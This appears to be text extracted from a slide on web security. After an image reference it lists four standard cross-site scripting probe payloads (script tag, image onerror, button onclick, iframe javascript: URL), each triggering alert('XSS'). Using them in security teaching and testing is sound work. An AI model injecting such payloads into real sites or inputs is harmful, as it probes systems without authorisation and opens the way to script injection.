

<SCRIPT>alert('XSS')</SCRIPT>
<IMG SRC="#" ONERROR="alert('XSS')"/>
<INPUT TYPE="BUTTON" ONCLICK="alert('XSS')"/>
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>